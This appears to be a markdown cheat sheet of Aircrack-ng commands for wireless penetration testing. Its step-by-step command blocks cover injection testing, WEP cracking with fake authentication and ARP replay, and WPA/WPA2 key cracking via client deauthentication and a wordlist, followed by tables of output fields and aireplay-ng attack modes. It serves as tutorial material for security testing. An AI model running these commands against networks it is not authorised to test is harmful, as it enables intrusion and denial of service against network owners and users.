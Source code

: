 # Aircrack-ng :
   * [Injection test](https://www.aircrack-ng.org/doku.php?id=injection_test)
     * The injection test determines if your card can successfully inject and determine the ping response times to the Access Point (AP)
      ```bash
         # List wireless interfaces
         iwconfig
         # Start the wireless interface in monitor mode on a specific AP channel
         airmon-ng start wlan0 8
         # Test the injection capability of the wireless device to the AP
         aireplay-ng -9 -e teddy -a 00:14:6C:7E:40:80 wlan0mon 
      ```
   ## WEP crack
   * [Flowchart : Wep Cracking](http://www.aircrack-ng.org/img/simple-wep-crack.gif)
   * [Crack WEP (with client)](https://www.aircrack-ng.org/doku.php?id=simple_wep_crack) (fake authentication combined with ARP request replay technique)
      ```bash
         # List wireless interfaces
         iwconfig
         # Start the wireless interface in monitor mode on the specific AP channel
         airmon-ng start wlan0
         # Show available AP
         airodump-ng wlan0mon
         # Start airodump-ng to capture the IVs
         airodump-ng -c 9 --bssid 00:14:6C:7E:40:80 -w output wlan0mon
         # Use aireplay-ng to do a fake authentication with the access point (To associate with an access point)
         aireplay-ng -1 0 -e teddy -a 00:14:6C:7E:40:80 -h 00:0F:B5:88:AC:82 wlan0mon
         # Start aireplay-ng in ARP request replay mode to inject packets
         aireplay-ng -3 -b 00:14:6C:7E:40:80 -h 00:0F:B5:88:AC:82 wlan0mon
         # Run aircrack-ng to crack key using the IVs collected
         aircrack-ng -b 00:14:6C:7E:40:80 output*.cap
      ```
   * [Crack WEP (without client)](https://www.aircrack-ng.org/doku.php?id=how_to_crack_wep_with_no_clients)

  # WAP crack
  * Crack WPA/WPA2 pre-shared key
      
      ```bash
         # Start airodump-ng to collect authentication handshake
         airodump-ng -c 9 --bssid 00:14:6C:7E:40:80 -w psk wlan0mon
         # Use aireplay-ng to deauthenticate the wireless client
         aireplay-ng -0 1 -a 00:14:6C:7E:40:80 -c 00:0F:B5:FD:FB:C2 wlan0mon
         # Run aircrack-ng to crack the pre-shared key
         aircrack-ng -w password.lst -b 00:14:6C:7E:40:80 psk*.cap
      ```

   * [The upper data block shows the access points found](https://www.aircrack-ng.org/doku.php?id=newbie_guide)

      Name | Description
      ------------ | -------------
      **BSSID**   |	The MAC address of the AP|
      **PWR**     |	Signal strength. Some drivers don't report it|
      **Beacons** |	Number of beacon frames received. If you don't have a signal strength you can estimate it by the number of beacons: the more beacons, the better the signal quality|
      **Data** 	|Number of data frames received|
      **CH** 	    |Channel the AP is operating on|
      **MB**      |	Speed or AP Mode. 11 is pure 802.11b, 54 pure 802.11g. Values between are a mixture|
      **ENC**     |	Encryption: OPN: no encryption, WEP: WEP encryption, WPA: WPA or WPA2 encryption, WEP?: WEP or WPA (don't know yet)|
      **ESSID**   |	The network name. Sometimes hidden |

   * [The lower data block shows the clients found](https://www.aircrack-ng.org/doku.php?id=newbie_guide) 

      Name | Description
      ------------ | -------------
      | **BSSID**   | The MAC of the AP this client is associated to |
      | **STATION** | The MAC of the client itself |
      | **PWR**     | Signal strength. Some drivers don't report it  |
      | **Packets** | Number of data frames received  |
      | **Probes**  | Network names (ESSIDs) this client has probed |

   * [different attacks](https://www.aircrack-ng.org/doku.php?id=aireplay-ng)

     * **--deauth count** : deauthenticate 1 or all stations (-0)
     * **--fakeauth delay** : fake authentication with AP (-1)
     * **--interactive** : interactive frame selection (-2)
     * **--arpreplay** : standard ARP-request replay (-3)
     * **--chopchop** : decrypt/chopchop WEP packet (-4)
     * **--fragment** : generates valid keystream (-5)
     * **--caffe-latte** : query a client for new IVs (-6)
     * **--cfrag** : fragments against a client (-7)
     * **--test** : tests injection and quality (-9)
     
     
